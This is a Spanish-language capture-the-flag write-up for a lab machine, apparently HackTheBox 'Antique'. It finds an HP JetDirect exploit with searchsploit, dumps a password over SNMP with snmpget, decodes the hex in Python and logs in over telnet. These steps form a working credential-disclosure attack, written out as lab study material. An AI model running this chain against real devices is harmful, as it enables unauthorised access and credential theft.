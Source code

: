 ### Buscando vulnerabilidades con [[searchsploit]]

Usamos ``searchsploit jetdirect`` y viendo todas a nosotros nos interesa la 22319 por lo que la vamos a descargar con el comando `searchsploit -m hardware/remote/22319.txt`

![[Antique8.png]]

Vamos a ver el archivo con [[cat]] usando el comando ``cat 22319.txt`
![[Antique9.png]]


###  Dumpeamos contraseña con [[snmpget]]

Modificando el payload que vimos en el exploit anterior, vamos a usar el comando `snmpget -v1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0` que nos va a servir para dumpear contraseñas en HEX

![[Antique7.png]]

nos da este output en hexadecimal

```
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```


### [[Pasar de HEX a ascii con python]]

Abri el  interprete de python con `python` despues se importa la libreria binascci con el comando `import binascii` luego vamos a poner todos los numeros en hexadecimal dandoselos a una variable poniendo

```
s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 135'
```

Y luego para terminar vamos a usar la libreria que importamos al principio con ``binascii.unhexlify(s.replace(' ',''))`` usando el replace para sacar los espacios

![[Antique11.png]]
![[Antique12.png]]
Y nos da la contraseña *P@ssw0rd@123!!123*


### Conexion con [[telnet]]

Vamos a usar el comando `telnet 10.10.11.107 23` Y vamos a poner la contraseña que dumpeamos previamente, y ya estamos adentro de la maquina
![[Antique15.png]]
